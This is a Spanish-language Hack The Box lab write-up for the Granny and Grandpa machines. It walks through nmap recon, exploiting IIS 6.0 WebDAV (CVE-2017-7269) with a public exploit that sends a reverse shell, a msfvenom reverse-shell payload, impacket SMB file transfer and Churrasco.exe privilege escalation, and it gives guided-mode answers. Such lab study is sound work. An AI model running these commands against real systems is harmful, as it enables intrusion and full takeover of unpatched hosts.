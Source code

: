 ```yaml
---
title: Writeup granny - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - granny
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina granny en Hack The Box.
keywords:
  - writeup granny
  - hack the box granny
  - resolución máquina granny
  - granny hack the box
  - htb granny
---
```

----------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link Granny](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Granny-Grandpa) 
- 📺 **Resolución en vivo (completa)**: [Granny Parte1](https://www.youtube.com/watch?v=s_1LaGfKMkU)|[Granny Parte2](https://www.youtube.com/watch?v=ul8bA5CgpfI)|[Link Grandpa](https://www.youtube.com/watch?v=L5jRxh0IAd0)
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #churrascoexe #impacket-smbserver #CVE-2017-7269 #whatweb #wappalyzer #whoami #msfvenom #rwrapncnlvp443 

-------
# Aclaracion importante

Hace un tiempo habia solucionado la maquina granny y despues intente a grandpa y vi que eran iguales asi que voy a usar el mismo writeup para las dos

-----

# Guided Mode de la maquina Granny

1)¿Cuántos puertos TCP están abiertos en Granny?
	1

2)¿Cómo se llama el script de nmap que identifica los métodos HTTP permitidos en Granny?
	http-webdav-scan

3)¿Qué marco de aplicaciones web basado en DOTNET se está ejecutando en el servidor web de destino?
	ASP.NET

4)¿Qué método HTTP se puede utilizar para subir archivos a Granny?
	PUT

5)¿Cuál es el ID CVE 2017 de una vulnerabilidad que aprovecha esta versión de IIS y WebDAV, lo que da lugar a la ejecución remota de código?
	CVE-2017-7269

6)¿Qué módulo de reconocimiento de Metasploit se puede utilizar para enumerar las posibles rutas de escalada de privilegios en un sistema comprometido?
	local_exploit_suggester

----

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.15
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.15 -oG allPorts
nmap -sC -sV -p80 10.10.10.15 -oN targetTCP
nmap -sU -Pn -n -vvv --top-ports 200 10.10.10.15 -oN targetUDP
```

![[Granny1.png]]

![[Granny2.png]]

![[Granny3.png]]
*TTL:* Maquina Windows
*Puertos TCP:*
	`80` HTTP
*Puertos UDP:*
	Demasiado ruido, no hay información relevante

-------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.15/
```

![[Granny5.png]]
![[Granny4.png]]
Lo impor tante es microsoft-IIS 6.0

---------
# [[CVE-2017-7269]]

Con [[git clone]] usamos el comando `git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269` para descargar el repositorio, despues con [[cd]] usamos `cd iis6-exploit-2017-CVE-2017-7269` y luego con ``python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.16.15 443`` vamos a mandarnos la [[Reverse shell]] mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]]


![[Granny6.png]]

![[Granny7.png]]
Ya ganamos acceso a la maquina

--------
# Escalada de privilegios con [[Churrasco.exe]]

Usamos [[whoami]] con el comando `whoami /all`

![[Granny10.png]]
Vemos que *SeImpersonatePrivilege* esta activado
Se podria hacer un JuicyPotato pero como es un windows muy viejo vamos a usar la version anterior que es la de [[Churrasco.exe]]
Descargamos el exploit desde este [repositorio](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012/pr.exe)


### Con [[msfvenom]] vamos a crear el ejecutable *exploit.exe* para enviarnos una [[Reverse shell]]

```shell
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe
```
![[Granny19.png]]



Desde nuestra maquina de atacante, donde tenemos el ejecutable del [[Churrasco.exe]] vamos a levantar un [[impacket-smbserver]] con el comando `impacket-smbserver smbfolder $(pwd) -smb2support`
![[Granny18.png]]

Vamos a crear una carpeta llamada */tmp* en *C:* para poder tener permisos de escritura sin ningun tipo de problemas
Y desde la maquina victima vamos a descargar los archivos con `copy \\10.10.16.15\smbfolder\exploit.exe .` y `copy \\10.10.16.15\smbfolder\churrasco.exe .`
![[Granny15.png]]

Ejecutamos el [[Churrasco.exe]] pasandole el *exploit.exe* que creamos para enviarnos una [[Reverse shell]] con [[msfvenom]]

![[Granny14.png]]
Mientras estamos en escucha con [[rlwrap -cAr nc -lvnp 443]] con el comando `rlwrap nc -nlvp 500` para enviarnos una [[Reverse shell]]
![[Granny12.png]]
Ya elevamos nuestro privilegio al maximo y podemos ver las flags

![[Granny16.png]]
![[Granny17.png]]

----
# Notas

Descargar los raw de github haciendo click derecho en raw y copiando el link y ahi lo paso por [[wget]]



-----
# Creditos

[Writeup jtsec](https://www.jtsec.es/blog-entry/61/road-to-oscp-hack-the-box-write-up-granny)
[Writeup binaryregion](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)